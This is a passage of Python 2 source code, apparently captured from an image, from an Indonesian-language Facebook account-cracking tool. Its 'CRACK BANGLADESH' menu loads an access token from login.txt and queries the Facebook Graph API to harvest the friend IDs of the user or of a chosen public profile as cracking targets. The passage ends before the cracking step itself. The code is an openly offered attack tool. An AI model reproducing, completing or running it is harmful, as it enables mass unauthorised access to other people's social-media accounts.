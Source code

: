 #### CRACK BANGLADESH ####
def crack_bangla():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print '\033[0;97m   ! Token Invalid'
		os.system('rm -rf login.txt')
		time.sleep(1)
		Exit()
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print ('\033[0;97m   1.\033[0;97m Crack Dari Daftar Teman')
	print ('\033[0;97m   2.\033[0;97m Crack Dari Public/Teman')
	print ('\033[0;97m   0.\033[0;97m Kembali')
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
	pilih_bangla()

### PILIH BANGLADESH ###
def pilih_bangla():
	teak = raw_input('\033[0;97m   >\033[0;97m ')
	if teak =="":
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_bangla()
	elif teak =="1":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif teak =="2":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		idt = raw_input("\033[0;97m   • \033[0;97mID Public/Teman \033[0;97m:\033[0;97m ")
		try:
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			sp = json.loads(pok.text)
			print "\033[0;97m   •\033[0;97m Nama \033[0;97m:\033[0;97m "+sp["name"]
		except KeyError:
			print "\033[0;97m   ! ID public/teman tidak ada"
			raw_input("\n\033[1;97m   < \033[0;97mKembali \033[0;97m>")
			crack_bangla()
		except requests.exceptions.ConnectionError:
			print '\033[0;97m   ! Tidak ada koneksi'
			Exit()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif teak =="0" or teak =="00":
		crack_teman()
	else:
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_bangla()
	